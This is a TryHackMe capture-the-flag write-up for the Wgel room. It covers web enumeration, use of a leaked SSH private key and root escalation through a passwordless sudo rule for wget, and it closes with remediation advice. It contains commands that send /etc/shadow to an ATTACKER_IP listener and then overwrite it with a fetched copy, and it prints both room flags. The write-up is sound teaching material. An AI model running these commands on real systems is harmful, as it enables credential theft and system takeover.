






# Wgel CTF — TryHackMe Write-up

> **Spoiler warning:** this write-up contains the complete attack path and both room flags.

## Overview

Wgel CTF is a Linux room focused on web enumeration, SSH key exposure, and local privilege escalation through an unsafe `sudo` rule for `wget`.

| Item | Details |
| --- | --- |
| Platform | TryHackMe |
| Target | Linux (Ubuntu) |
| Difficulty | Easy |
| Initial access | Exposed SSH private key |
| Privilege escalation | `sudo` misconfiguration for `/usr/bin/wget` |

## Attack path

1. Enumerate the target with Nmap.
2. Discover `/sitemap/` with Gobuster.
3. Find the exposed `/sitemap/.ssh/` directory.
4. Use the leaked private key to authenticate as `jessie`.
5. Identify the passwordless `sudo` permission for `wget`.
6. Use `wget` to read and overwrite `/etc/shadow`.
7. Authenticate as `root` with the newly assigned password.

## Enumeration

### Nmap

I began with a default-script and service-version scan:

```bash
sudo nmap -sC -sV "$TARGET"
```

The scan exposed two services:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18
```

Port 80 served the default Apache2 page.



Inspecting the page source revealed a useful comment:

```html
<!-- Jessie don't forget to update the website -->
```

This provided a possible username: `jessie`.

### Directory discovery

I enumerated the web root with Gobuster:

```bash
gobuster dir \
  -u "http://$TARGET" \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Gobuster found the `/sitemap/` directory.



The directory hosted a web application with several sections.


I reviewed the contact form, but it did not provide a working entry point.



I then enumerated `/sitemap/` with a second wordlist and increased the thread count:

```bash
gobuster dir \
  -u "http://$TARGET/sitemap" \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 50
```

The important result was an exposed `.ssh` directory:

```text
.ssh    (Status: 301) [--> /sitemap/.ssh/]
```

Browsing to it revealed a downloadable `id_rsa` private key.



## Initial access

After downloading the key, I restricted its permissions because OpenSSH refuses to use a private key that is accessible by other users:

```bash
chmod 600 id_rsa
```

Using the username found in the HTML comment, I connected to the target:

```bash
ssh -i id_rsa jessie@"$TARGET"
```

The key was accepted and provided a shell as `jessie` on the `CorpOne` host.

The user flag was stored in `~/Documents/user_flag.txt`:

```bash
cat ~/Documents/user_flag.txt
```

## Privilege escalation

### Enumerating sudo permissions

I checked which commands `jessie` could execute with elevated privileges:

```bash
sudo -l
```

The relevant entry was:

```text
(root) NOPASSWD: /usr/bin/wget
```

This means `jessie` can execute `/usr/bin/wget` as `root` without entering a password. GTFOBins confirms that `wget` can read, upload, and overwrite files when it runs with sufficient privileges.



### Reading `/etc/shadow`

On the attacker machine, I started a Netcat listener:

```bash
nc -nlvp 4444
```

From the target, I used the privileged `wget` process to send `/etc/shadow` to the listener:

```bash
sudo /usr/bin/wget --post-file=/etc/shadow ATTACKER_IP:4444
```

The listener received the protected file contents.



### Replacing the root password hash

I saved the received content locally and generated a new SHA-512 password hash:

```bash
openssl passwd -6 -salt 'salt' 'password'
```

I replaced the existing root hash in the copied shadow file with the generated value, then served the modified file from the attacker machine:

```bash
python3 -m http.server 8000
```

Back on the target, I used the passwordless `sudo` rule to overwrite `/etc/shadow`:

```bash
sudo /usr/bin/wget \
  "http://ATTACKER_IP:8000/shadow.txt" \
  -O /etc/shadow
```

Finally, I authenticated as `root` with the password assigned to the new hash:

```bash
su root
```

The root flag was stored in `/root/root_flag.txt`:

```bash
cat /root/root_flag.txt
```

## Flags

<details>
<summary>Show captured flags</summary>

```text
User flag: 057c67131c3d5e42dd5cd3075b198ff6
Root flag: b1b968b37519ad1daa6408188649263d
```

</details>

## Remediation

The compromise was possible because sensitive files were exposed through the web server and `wget` could run as `root` without a password.

- Never publish private SSH keys inside a web-accessible directory.
- Remove unnecessary passwordless `sudo` rules.
- Avoid granting privileged access to binaries that can read or overwrite arbitrary files.
- Review web roots for hidden files and deployment artifacts.
- Rotate any SSH key immediately after suspected exposure.

## References

- [GTFOBins — wget](https://gtfobins.github.io/gtfobins/wget/)
- [Linux Privilege Escalation — sudo wget](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-wget-privilege-escalation)

## Disclaimer

This material documents activity performed in an authorized TryHackMe lab. Use these techniques only in systems you own or have explicit permission to test.
